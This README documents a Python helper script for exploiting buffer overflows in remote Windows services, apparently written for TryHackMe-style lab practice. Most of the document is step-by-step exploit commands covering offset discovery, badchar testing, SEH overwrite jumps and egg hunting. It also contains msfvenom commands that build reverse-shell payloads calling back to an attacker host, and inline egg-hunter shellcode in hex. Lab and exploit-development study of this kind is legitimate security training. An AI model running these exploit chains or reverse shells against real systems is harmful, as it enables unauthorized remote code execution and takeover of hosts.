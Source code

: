 # ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic pattern to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

checkoffset - Auxiliary mode for offset detection on pattern
```
./ig-buffer-overflow.py -m checkoffset --value=31704331 --length=5000
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Writes hex value to buffer offset and additional content before and/or after the offset content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=90909090 --after=9090
```

write - Writes badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=badchar --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=badchar --exclude=000a
```

write - Sends malicious shell code (hex string file) via buffer overflow
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=shellcode --shellcode=opencalc --nops=10
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=shellcode --shellcode=opencalc
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Select script mode (test|cyclic|write|checkoffset).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --interact	: Interact with the application before sending the payload. For each message in string (separated with ';;'), sends and receives response from app.
  * Example: --interact='login;;user' --> Sends 'login', gets response, sends 'user', gets response, and finally sends the generated payload
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --before|after	: Writes additional content (hex string) before and/or after the offset content.
  * If content is 'badchar', content will be a generated badchar list. Used for bad char testing.
  * If content is 'shellcode', --shellcode parameter will be expected.
  * Other content will be considered as big endian (default) or little endian (will be reversed). Same as --hexcontent.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --shellcode	: Hex shell code file generated using msfvenom. 
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nopsb|nopsa	: Amount of nops to add before and/or after the additional write content (be if badchars, shellcode or simple hexstring). Default is 0.
* --value		: Offset value.
* --length	: Cyclic pattern length.
* --flush		: Adds '\\r\\n' at the end of the payload.


## Vanilla Buffer Overflow example

[TryHackMe - Brainstorm - Write-up](https://github.com/isabellecda/writeups/tree/main/TryHackMe/Brainstorm)

## SEH Overwrite example

1. Overwrite SEH chain
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

2. Identify SEH offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

3. Small jump (90EB0890) to tail content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301
```

4. Long jump (E9DBFCFFFF) to head content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4
```

5. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=5048 --buffsize=4096 --buffhead='cmd2 /.../' --offset=3391 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=badchar --nopsb=4 --exclude=00 -v
```

6. Exploit
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=shellcode --shellcode=reverse --nopsb=20 -v
```

## Egg Hunting example

1. Overwrite EIP
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

2. Identify EIP offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

3. Identify command to write to memory
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.146 --rport=2050 --buffsize=1000 --buffhead='cmd2 OVNI'
```

4. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNI' --offset=1 --hexcontent=90 --after=badchar --exclude=00 --nopsa=2 -v
```

5. Write exploit with egg
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNIOVNI' --offset=1 --hexcontent=90 --after=shellcode --shellcode=reverse --nopsa=20 -v
```

6. Generate egg hunter and send
```
msf-egghunter -f hex -e OVNI -v egg

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=144 --buffhead='cmd1 /.:/' --offset=48 --hexcontent=l6250130A --after=6681caff0f42526a0258cd2e3c055a74efb84f564e4989d7af75eaaf75e7ffe7 --nopsa=2 -v
```
